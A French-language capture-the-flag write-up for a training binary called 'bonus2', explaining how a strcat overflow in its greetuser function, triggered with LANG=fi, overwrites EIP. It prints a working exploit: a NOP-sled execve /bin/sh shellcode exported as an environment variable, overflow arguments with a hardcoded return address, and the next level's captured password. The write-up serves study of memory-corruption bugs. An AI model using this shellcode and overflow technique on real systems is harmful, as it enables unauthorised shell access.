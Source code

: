 



# bonus2


## description
- Il y a un exécutable **bonus2**.
- sans arguments, il n'affiche rien
- avec deux arguments, il affiche Hello et ce qu'on a mis comme arguments.

## Résolution

       0x0804862b <+258>:   call   0x8048484 <greetuser>

Parmis tout le l'assembleur, on voit l'appel a la fonction **greetuser**.

A l'intérieur de **greetuser**, il y a un appel a **strcat** et on va pouvoir exploiter une faille et réécrire **l'eip** et utiliser un **shellcode**.

       0x0804859f <+118>:   mov    DWORD PTR [esp],0x8048738
       0x080485a6 <+125>:   call   0x8048380 <getenv@plt>
Le programme récupère la variable d'environnement **LANG** et va nous afficher le mot bonjour suivant la langue de notre variable.(0 = en, 1 = fi, 2 = nl).

Pour pouvoir exploiter ca, on va passer notre langue en finlandais pour utiliser le fait que la salutation en finlandais prends plus de place et va nous permettre d'écrire sur **l'eip** 

On reprends notre **shellcode** du bonus0
```
export LANG=fi
export SHELLCODE=$(python -c 'print "\x90" * 1024 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
./bonus2 $(python -c 'print 40*"A"') $(python -c 'print 18*"B" + "\xad\xf8\xff\xbf"')

cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
